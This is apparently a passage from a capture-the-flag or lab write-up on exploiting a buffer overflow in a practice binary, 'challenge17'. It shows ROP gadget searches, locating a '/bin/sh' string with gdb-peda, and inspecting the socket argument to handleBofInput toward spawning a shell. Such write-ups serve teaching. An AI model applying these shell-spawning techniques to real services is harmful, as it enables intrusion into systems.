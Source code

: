 ```
(challenge17/ELF/x86_64)> search pop rdi
[INFO] Searching for gadgets: pop rdi
[INFO] File: challenge17
0x0000000000400eb3: pop rdi; ret;

(challenge17/ELF/x86_64)> search pop rsi
[INFO] Searching for gadgets: pop rsi
[INFO] File: challenge17
0x0000000000400eb1: pop rsi; pop r15; ret;

(challenge17/ELF/x86_64)> search syscall
[INFO] Searching for gadgets: syscall
[INFO] File: challenge17
0x0000000000400c93: syscall; ret;
```

## Shell string

I intentionally positioned a "/bin/sh" string in the memory. You can find it with
the peda command "find". In a second stop, we will update the exploit, and write our
own string into memory.

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 2 results, display max 2 items:
challenge17 : 0x400ed8 --> 0x68732f6e69622f ('/bin/sh')
       libc : 0x7ff0519cd58b --> 0x68732f6e69622f ('/bin/sh')
```

We'll use the string in the `challenge17` segment: `0x400ed8`.

## Client socket nr

The socket number in the argument for the function `handleBofInput`. Lets check it:
```
gdb-peda$ b *handleBofInput
Breakpoint 1 at 0x400b12
gdb-peda$ c
Continuing.
[New process 7643]
[Switching to process 7643]

 [----------------------------------registers-----------------------------------]
RAX: 0x4
RBX: 0x0
RCX: 0x7ffc0b70c840 --> 0x7ffc00000031
RDX: 0x0
RSI: 0x1
RDI: 0x4
```
